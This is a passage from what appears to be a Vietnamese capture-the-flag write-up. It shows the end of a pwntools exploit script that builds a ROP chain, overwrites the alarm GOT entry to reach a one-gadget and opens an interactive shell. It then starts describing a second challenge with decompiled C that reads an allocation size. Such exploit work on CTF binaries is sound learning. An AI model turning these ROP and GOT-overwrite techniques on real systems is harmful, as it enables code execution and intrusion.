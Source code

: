 ```python
        0x0000000000400668
    )  # add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; repz ret
    rop.raw(
        exe.plt.setvbuf
    )  # jmp to setvbuf + 0x80 - set through adding 0x80 to got.setvbuf
    rop.raw(0x17A2)  # ebx = offset to onegadget
    rop.raw(exe.got.alarm + 0x3D)  # rbp
    rop.raw(0)  # r12
    rop.raw(0)  # r13
    rop.raw(0)  # r14
    rop.raw(
        0x0000000000400668
    )  # add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; repz ret
    #           this adds 0x17a2 to got.alarm - the onegadget address
    rop.raw(0x0000000000400608)  # pop rbp ; ret
    rop.raw(0x6010F0 + 0x48)  # bss + 0x48 - satisfy onegadget constraint
    rop.raw(exe.plt.alarm)  # jmp to onegadget

    print(rop.dump())
    input()
    p.sendline(rop.chain())

    rop = ROP(exe)
    rop.raw(b"A" * 40)
    rop.raw(exe.plt.alarm)
    input()
    p.sendline(rop.chain())
    p.interactive()


if __name__ == "__main__":
    exploit()
```

## unfinished

- bài này cũng khá là hay , lúc làm mình ko mở ida luôn nên hơi vl :))) 

- ta sẽ được input 500 byte vào `bss` và dùng `atol` để chuyển sang số và malloc với size đó , ở đây nó cũng check size 

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 v3; // rax

  setvbuf(_bss_start, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  puts("What size allocation?");
  fgets(number, 500, stdin);
  v3 = atol(number);
  if ( v3 > 0x1FFFFFFFFFFFFFFELL )
    _cxa_throw_bad_array_new_length();
  operator new[](4 * v3);
  return 0;
}
```
